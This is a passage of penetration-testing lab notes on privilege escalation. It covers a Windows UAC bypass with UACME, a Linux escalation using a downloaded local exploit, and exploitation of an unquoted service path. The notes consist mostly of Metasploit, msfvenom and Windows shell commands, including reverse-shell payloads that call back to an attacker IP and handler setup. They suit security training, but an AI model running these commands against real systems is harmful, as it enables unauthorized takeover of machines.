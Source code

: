 UACME:
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=1234 -f exe -o /root/reverse_tcp64.exe`, `cd ~/tool/UACME`.
Go back to Meterpreter and interact with the (low privileges) open session: `sessions -i 1`, `upload /root/reverse_tcp64.exe .`, `upload ~/tools/UACME/Akagi64.exe .`, `background`.
Let's create the handler for the payload: `use exploit/multi/handler`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `set LHOST 192.168.1.3`, `set LPORT 1234`, `exploit -j`: to execute the Handler in the background.
Go again back to Meterpreter and interact with the (low privileges) open session: `sessions -i 1`, `shell`, `dir`, `Akagi64.exe 10 C:\Users\els\Download\reverse_tcp64.exe`: where `10` specifies the number of the exploit method.
A new Meterpreter session has been created, in which we have higher privileges: `sessions`, `sessions -i 3`, `run post/windows/gather/win_privs`: is admin - not system - UAC enabled, `getsystem`: to get also the system privileges (the highest privileges on Windows), `getuid`: `NT AUTHORITY\SYSTEM`.

`exit`, `sessions -K`, `jobs -K`, `exit`: to clean all sessions and jobs.

Let's try with a Linux machine.
Assume we already have a Meterpreter session (reverse shell).
`sysinfo`: we have a Linux (ubuntu 14.04.1, i686 architecture) machine, `getuid`: we have root privileges.
On Metasploit we do not have modules to automatically get root privileges, so we have to search online for Linux privilege escalation exploits: `ubuntu 14.04 privilege escalation`, download the (C file) exploit.
Let's go back on the Meterpreter session to open a shell: `execute -f /bin/sh -i -c`: where `-i` specifies we want to interact with the shell, `-c` to channelize the inputs/outputs, `gcc --version`: to see if the target machine has the compiler installed, `upload exploit.c ~/Desktop/privesc_exploit.c`, `gcc privesc_exploit.c -o privesc_exploit`, `whoami`, `./privesc_exploit`, `whoami`: the exploitation is successful, so we are root.

### Exploiting Unquoted Service Paths - Video

Unquoted service paths are a Windows vulnerability we can exploit to escalate our privileges or to persistence.
Assume we already have a Meterpreter session (reverse shell) with a low privileges user.

`shell`, `wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """`: to identify a vulnerable service, `sc stop VGAuthService` `sc start VGAuthService`: to check if the current user has the privileges to start/stop the vulnerable service, `sc qc VGAuthService`: to check if the service will start with system privileges (`SERVICE_START_NAME : LocalSystem`), `sc stop VGAuthService` `cd C:\Program Files\Vmware` `icacls "Vmware Tools"`: to check we have the permissions to write the directory of the new payload (`Authenticated Users:(OI)(CI)(M)`).

Now, once created the reverse shell payload with Mfsvenom, we can upload it. `CTRL+Z`: to send the shell in the background, `upload /root/reverse_tcp64.exe "C:\\Program Files\\Vmware\\Vmware Tools\\Vmware.exe"`, `background`.
Let's create the handler for the payload: `use exploit/multi/handler`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `set LHOST 192.168.1.3`, `set LPORT 1234`, `exploit -j`: to execute the Handler in the background.

Now, it is time to start the service that will execute the reverse shell payload with system privileges: `sessions`, `sessions -i 1`, `shell`, `sc start VGAuthService`, so we have a new Meterpreter session, `CTRL+Z`, `background`, `sessions -i 2`, `getuid`: we will notice that we get an error, indeed our session process is unstable.
